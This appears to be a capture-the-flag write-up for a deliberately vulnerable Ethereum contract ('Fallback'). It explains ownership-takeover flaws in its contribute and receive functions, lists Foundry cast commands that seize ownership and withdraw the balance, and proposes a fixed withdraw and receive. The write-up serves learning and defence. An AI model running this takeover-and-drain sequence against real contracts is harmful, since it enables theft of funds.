 # Fallback

Claim ownership of the contract.

## Vulnerability

### Ownership Takeover in `contribute` function

The `contribute` function changes the owner of the contract if the `msg.sender`'s contributions exceed the current owner's contributions. This could allow an attacker to take over the contract by simply contributing more than the current owner.

### Ownership Takeover in receive function

The `receive` function, which is called when the contract is sent Ether without data, changes the owner of the contract to `msg.sender` if `msg.sender` has made any contributions. This means that anyone who has made contributions can take over the contract by sending Ether to it.

### Potential for Denial of Service

The `withdraw` function transfers the entire balance of the contract to the owner. If the owner's address is a contract with a fallback function that reverts, or if the owner's address is unable to receive Ether for any reason, this could prevent the `withdraw` function from being executed successfully, effectively locking the funds in the contract.

### Lack of Input Validation

The `contribute` function requires that the value of Ether sent is less than 0.001 Ether, but there's no similar check in the `receive` function. This could lead to unexpected behavior if someone sends more than 0.001 Ether to the contract without data.

## Attack

1. await contract.address
2. # await contract.owner()
   cast call $CONTRACT_ADDRESS "owner()" --rpc-url $ALCHEMY_RPC_URL
3. cast send $CONTRACT_ADDRESS "contribute()" --value 0.000000000000000001ether --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL
4. cast call $CONTRACT_ADDRESS "getContribution()" --rpc-url $ALCHEMY_RPC_URL --from $ACCOUNT_ADDRESS
5. # {value: msg.value}("")
   cast send $CONTRACT_ADDRESS --value 0.000000000000000001ether --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL
6. cast send $CONTRACT_ADDRESS "withdraw()" --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL

## Fix

```javascript
function withdraw() public onlyOwner {
    require(address(this).balance > 0, "Insufficient funds");
    (bool success, ) = payable(owner).call{value: address(this).balance}("");
    require(success, "Transfer failed");
}

receive() external payable {
    require(msg.value > 0 && msg.value < 0.001 ether && contributions[msg.sender] > 0);
    if (contributions[msg.sender] + msg.value > contributions[owner]) {
        owner = msg.sender;
    }
    contributions[msg.sender] += msg.value;
}
```